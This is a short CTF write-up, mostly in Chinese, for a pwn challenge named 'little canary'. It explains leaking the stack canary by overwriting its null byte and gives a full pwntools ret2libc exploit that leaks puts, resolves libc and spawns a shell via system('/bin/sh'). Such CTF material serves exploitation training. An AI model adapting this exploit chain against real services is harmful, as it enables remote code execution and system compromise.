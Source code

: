 # little canary

## 文件分析

下载`pwn`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

先溢出字符数组读取Canary的值

**注意：Canary的第一字节是\0，需要先覆盖才能打印出后面内容，之后还要还原**

获取canary的值后就可以考虑rop  
由于不存在后门且开了NX，所以后面根据ret2libc做即可

## EXPLOIT

```python
import LibcSearcher
from pwn import *

sh = remote('localhost', 43655)

# payload 1
sh.sendline(b'0'*68 + b'FLAG') # override the canary first byte '\0' with '\n'

sh.recvuntil(b'FLAG\n') # skip
canary = u64(b'\0' + sh.recvline()[:7]) # restore the overrided '\0'

elf = ELF('canary')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x00401343
vulnAddr = elf.symbols['vuln']

# payload 2
sh.sendline(b'0'*72 + p64(canary) + b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvline() # skip
putsGotAddr = u64(sh.recvline()[-7:-1] + b'\0\0')
libc = LibcSearcher.LibcSearcher("puts", putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump("puts")
shstrAddr = libcBase + libc.dump("str_bin_sh")
systemAddr = libcBase + libc.dump("system")
retAddr = 0x004012b9

# payload 3
sh.sendline(b'skip this input')

# payload 4
sh.sendline(b'0'*72 + p64(canary) + b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
